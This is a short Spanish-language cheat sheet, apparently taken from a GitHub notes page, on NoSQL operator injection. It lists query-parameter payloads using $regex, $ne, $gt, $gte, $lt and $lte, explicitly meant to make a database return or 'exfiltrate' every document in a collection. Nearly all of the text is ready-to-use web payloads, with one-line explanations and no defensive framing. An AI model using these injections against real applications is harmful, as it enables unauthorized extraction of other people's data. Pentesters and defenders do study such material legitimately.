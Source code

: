 ## INFO

Podemos aprovechar los operadores para forzar una exfiltración de toda la data de una colección:

### Regex:

        variable[$regex]=.\*

### No-Match

    variable[$ne]=noexistente

### Length

En este caso los terminos a buscar van en blanco.

Buscar todos los documentos que sean mayores que

    variable[$gt]=

Buscar todos los documentos que sean mayores o iguales a

    variable[$gte]=

### TILDA
Usamos la tilda para buscar todos los datos que sean menores a la misma (tilda es el valor imprimible más largo de los valores ASCII).

    variable[$lt]=~

Misma lógica con menor o igual:

    variable[$lte]=~
